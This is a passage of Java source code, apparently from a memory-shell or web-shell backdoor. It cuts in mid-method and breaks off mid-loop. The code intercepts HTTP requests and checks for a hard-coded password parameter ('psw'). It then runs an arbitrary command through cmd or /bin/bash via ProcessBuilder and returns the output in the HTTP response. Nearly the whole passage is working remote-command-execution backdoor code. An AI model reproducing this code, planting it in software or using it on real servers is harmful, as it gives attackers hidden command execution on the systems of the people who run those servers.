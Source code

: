 ```java
        String psw = (String) invokeMethod(args[0], args[0].getClass(), "getParameter", STRING_CLASS, "psw");

        StringBuilder sb = new StringBuilder();
        for (Object arg : args) {
            sb.append(arg).append("\t");
        }
        String argStr = sb.toString();

        if (psw == null || !psw.equals("psw")) {
            return;
        }
        if (c != null) {
            String cmd;
            try {
                //执行命令
                cmd = execute(c);
            } catch (Exception e) {
                cmd = e.getMessage();
            }
            //填充httpResponse，提前返回
            write(args[1], cmd);
        }
    }

    public static Object invokeMethod(Object object, Class clazz, String methodName, Class[] paramTypes, Object... parameters) {
        try {
            Method method = clazz.getMethod(methodName, paramTypes);
            if (!method.isAccessible()) {
                method.setAccessible(true);
            }
            return method.invoke(object, parameters);
        } catch (Exception e) {
            if (clazz != null) {
            }
            return null;
        }
    }

    public static String execute(String cmd) throws Exception {
        StringBuilder result = new StringBuilder();
        if (cmd == null || cmd.length() == 0) {
            return result.toString();
        }
        DataInputStream dis = null;
        InputStream in = null;
        String osName = System.getProperty("os.name").toLowerCase();
        ProcessBuilder processBuilder;
        try {
            if (osName.contains("windows")) {
                processBuilder = new ProcessBuilder("cmd", "/c", cmd);
            } else {
                processBuilder = new ProcessBuilder("/bin/bash", "-c", cmd);
            }
            Process process = processBuilder.start();
            in = process.getInputStream();
            dis = new DataInputStream(in);
            String disr = dis.readLine();
            result.append("<pre>");
            while (disr != null) {
                result.append(disr).append("\n");
                disr = dis.readLine();
```